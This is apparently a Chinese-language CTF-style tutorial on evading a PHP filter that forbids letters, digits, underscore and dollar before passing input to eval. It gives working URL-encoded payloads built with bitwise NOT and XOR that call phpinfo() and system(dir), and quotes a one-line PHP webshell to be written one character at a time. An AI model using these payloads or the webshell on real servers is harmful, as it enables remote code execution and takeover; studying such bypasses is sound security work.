




这里采用p神的例子：

本文思路也是来源于p神两篇文章：

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    eval($code);
}else{
    highlight_file(__FILE__);
}
```

此处过滤了，数字，字母，_，$

# 采用取反绕过：

首先构造phpinfo();来显示php信息。

payload:?code=(~%8F%97%8F%96%91%99%90)();//phpinfo();



然后进一步操作，列目录。

payload:?code=(~%8C%86%8C%8B%9A%92)(~%9B%96%8D);//system(dir);




此时，可以直接考虑直接写webshell，echo "<?php eval(@$_POST['a']); ?>" shell.php,但在此处，有长度限制，一句话无法写入。

但可以采用每次写入一个字符，在结尾追加的方式来写入。


# 采用异或绕过：

首先构造phpinfo();

payload:?code=(%8F%97%8F%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff)();//phpinfo();



列目录：

payload:?code=(%8C%86%8C%8B%9A%92^%ff%ff%ff%ff%ff%ff)(%9B%96%8D^%ff%ff%ff);//system(dir);




